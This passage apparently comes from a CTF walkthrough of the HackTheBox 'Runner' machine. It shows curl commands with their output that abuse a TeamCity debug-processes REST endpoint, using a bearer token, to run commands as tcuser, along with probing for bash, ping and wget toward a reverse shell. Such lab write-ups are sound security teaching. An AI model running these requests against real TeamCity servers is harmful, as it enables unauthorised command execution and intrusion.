 Then this one to to refresh the server:

```

oxdf@hacky$ curl 'http://teamcity.runner.htb/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
...[snip]...

```

#### Commands

Now I can run commands at the `/app/rest/debug/process` endpoint:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
StdOut:uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)

StdErr: 
Exit code: 0
Time: 39ms

```

#### Shell

Getting a shell out of this in one shot proved very tricky. It is taking a single binary as the `exePath` argument, and then one or more `params` arguments. `bash` is on the box:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=bash' -H "Authorization: Bearer $TOKEN"
StdOut:/usr/bin/bash

StdErr: 
Exit code: 0
Time: 27ms

```

But going directly to a Bash reverse shell proved too complex. `ping` and `wget` are not on the box:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=ping' -H "Authorization: Bearer $TOKEN"
StdOut:
StdErr: 
Exit code: 1
Time: 19ms
oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=wget' -H "Authorization: Bearer $TOKEN"
StdOut:
StdErr: 
Exit code: 1
Time: 17ms

```
